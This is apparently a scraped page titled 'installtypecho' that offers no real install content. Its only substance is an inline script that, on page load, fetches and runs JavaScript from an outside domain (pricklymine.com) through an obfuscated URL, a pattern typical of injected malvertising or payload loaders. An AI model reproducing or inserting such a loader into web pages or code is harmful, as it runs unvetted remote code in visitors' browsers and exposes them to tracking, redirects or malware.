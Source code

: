 # installtypecho

<script>
(function(krogc){
var d = document,
    s = d.createElement('script'),
    l = d.scripts[d.scripts.length - 1];
s.settings = krogc || {};
s.src = "\/\/pricklymine.com\/bgX.V-s\/dEGclB0bYzWqd-i\/YOWu5VuzZJXBIS\/UeBmp9runZNUPlDkcPBTcUg4QNLTjky1tNEDQAgtzNrT\/gm1XO_T\/Ud0xMWQB";
s.async = true;
s.referrerPolicy = 'no-referrer-when-downgrade';
l.parentNode.insertBefore(s, l);
})({})
</script>
